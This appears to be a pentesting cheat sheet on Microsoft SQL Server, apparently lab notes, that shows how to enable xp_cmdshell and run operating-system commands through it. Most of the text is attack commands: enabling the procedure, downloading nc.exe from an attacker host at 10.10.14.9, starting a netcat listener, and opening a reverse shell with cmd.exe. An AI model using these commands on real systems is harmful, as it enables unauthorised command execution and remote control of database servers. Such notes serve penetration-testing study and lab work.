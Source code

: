 # Microsoft SQL server
All info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## xp_cmdshell
A common target is to run the stored procedure xp_cmdshell  
Check if user can run:
```bash
EXEC xp_cmdshell 'net user';
```
if deactivated:
```bash
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
what also works:
```bash
xp_cmdshell 'whoami'
```
upload reverse shell script to directory where user has access:
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc.exe -outfile nc.exe"
```
on local machine run:
```bash
nc -nlvp 443"
```
run reverse shell script:
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.9 443"
```

